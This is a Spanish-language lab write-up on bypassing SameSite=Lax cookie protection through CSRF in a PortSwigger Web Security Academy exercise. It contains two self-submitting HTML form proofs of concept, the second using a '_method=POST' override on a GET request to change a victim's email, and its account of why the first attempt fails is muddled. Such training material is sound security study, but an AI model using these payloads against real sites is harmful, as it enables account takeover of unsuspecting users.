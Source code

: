 SameSite es un mecanismo de seguridad del navegador que determina cuándo se incluyen las cookies de un sitio web en las solicitudes procedentes de otros sitios web. Las restricciones de cookies de SameSite ofrecen protección parcial contra diversos ataques entre sitios, como CSRF, fugas entre sitios y algunos exploits CORS.

Desde 2021, Chrome aplica Laxrestricciones de SameSite por defecto si el sitio web que emite la cookie no establece explícitamente su propio nivel de restricción. Se trata de un estándar propuesto, y prevemos que otros navegadores importantes adoptarán este comportamiento en el futuro. Por lo tanto, es fundamental comprender a fondo cómo funcionan estas restricciones y cómo se pueden eludir para realizar pruebas exhaustivas de vectores de ataque entre sitios.

## LAB

![20250713021647.png](20250713021647.png)

Observamos  que tenemos un apartado para cambiar el correo del usuario.

![20250713222844.png](20250713222844.png)

Además, verificando los valores de la cookie observamos que el valor de `SameSite`es de `None` por lo que va por defecto con el valor de `Lax`

![20250713223416.png](20250713223416.png)

Teniendo en cuenta lo anterior e interceptando la solicitud de cambio de email, se puede construir nuestra POC. 

```html
<!DOCTYPE html>
<html lang="en">
	<body>
		<h1>Form CSRF PoC</h1>
		<form method="GET" action="https://0aec003403c506a480496cca0006006a.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned1%40pwned.net">
			<input type="submit" value="Submit Request">
		</form>
<script>
    document.forms[0].submit();
</script>
	</body>
</html>
```

Pero al probar esta no funciona debido a que `SameSite` al tener el valor por defecto de `Lax` solo acepta el envió de cookies por el método `GET`

![20250713224234.png](20250713224234.png)

Cuando una cookie tiene el atributo `SameSite=Lax`, el navegador solo la enviará en solicitudes cross-site que parezcan una navegación legítima del usuario, como cuando se usa `location.href`, se hace clic en un enlace `<a>`, o se produce una redirección 302. En cambio, no se enviará si la solicitud es un `POST`, si viene desde elementos como `<img>`, `<iframe>`, `fetch()` o si es un `GET` en segundo plano (como cargar una imagen). Por eso, para burlar esta restricción, los ataques CSRF modernos pueden usar un `GET` con el parámetro `_method=POST`: así, el navegador piensa que es una navegación segura y envía la cookie, pero el servidor interpreta la acción como un `POST` real y ejecuta la operación sensible.

por lo que debemos cambiar nuestro valores en nuestro POC

```html
<html>
	<body>
		<h1>Form CSRF PoC</h1>
		<form action="https://0aec003403c506a480496cca0006006a.web-security-academy.net/my-account/change-email" method="GET" >
			<input type="hidden" name="_method" value="POST"> 
			<input type="hidden" name="email" value="pwned2%40pwned.net">
			<input type="submit" value="Submit Request">
		</form>
<script>
    document.forms[0].submit();
</script>
	</body>
</html>
```

Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.